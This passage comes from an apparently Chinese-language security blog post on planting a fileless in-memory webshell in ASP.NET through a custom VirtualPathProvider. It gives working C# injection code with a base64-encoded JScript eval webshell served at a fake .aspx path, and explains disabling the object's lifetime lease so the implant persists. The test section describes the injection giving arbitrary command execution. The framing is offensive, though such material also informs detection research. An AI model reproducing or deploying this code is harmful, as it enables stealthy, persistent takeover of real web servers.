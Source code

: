 在这里，我们可以看到整个VirtualPathProvider生效使用了单项链表的结构，每注册一个VPP都会把当前指针指到新注册的VPP对象，然后把原有的VPP设为当前VPP的上一个节点。然后在新的Web请求到来时，Web Server会从最新的节点开始，逐个遍历链表上的所有节点，直到previous为null。



还有一个点需要注意，由于VirtualPathProvider继承了MarshalByRefObject，MarshalByRefObject有一个InitializeLifetimeService方法，作用是获取生存期服务对象来控制此实例的生存期策略。所以为了保持我们的内存马一直保持存活状态，我们可以调用VirtualPathProvider.InitializeLifetimeService方法来将其置空，从而防止创建限制对象生存期[VirtualPathProvider](https://docs.microsoft.com/zh-cn/dotnet/api/system.web.hosting.virtualpathprovider?view=netframework-4.8)的租约。



综上所述，我们的注入部分代码如下：

```csharp
 string webshellContentsBase64 = "SSBhbSBhIFdlYlNoZWxsPCVAIFBhZ2UgTGFuZ3VhZ2U9IkpzY3JpcHQiJT48JWV2YWwoUmVxdWVzdC5JdGVtWyJhbnQiXSwidW5zYWZlIik7JT4=";
    string webshellType = ".aspx";
    string webshellContent = System.Text.Encoding.UTF8.GetString(System.Convert.FromBase64String(webshellContentsBase64));
    string targetVirtualPath = "/yzddmr6.aspx";
    try
    {
        SamplePathProvider sampleProvider = new SamplePathProvider(targetVirtualPath, webshellContent);
        HostingEnvironment.RegisterVirtualPathProvider(sampleProvider);
        sampleProvider.InitializeLifetimeService();
    }
    catch (System.Exception error)
    {
        Console.WriteLine(error);
    }
```

### 测试

注入之前，访问/yzddmr6.aspx返回404错误

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1647437308075-0685d39c-542f-4e75-a0e3-f350662386f7.png)

注入内存马，一片空白表示注入成功

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1647437325381-63996f7b-9108-4bea-b5b5-a56d4839ce9b.png)

再次访问/yzddmr6.aspx，内存马成功植入，我们已经可以执行任意命令了

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1647437482899-ab351741-1899-4e40-89eb-2ac3b20b7c85.png)



## 进阶思考

以上是参考官方文档后的标准写法，是否存在优化的空间呢？

### 注入代码的位置
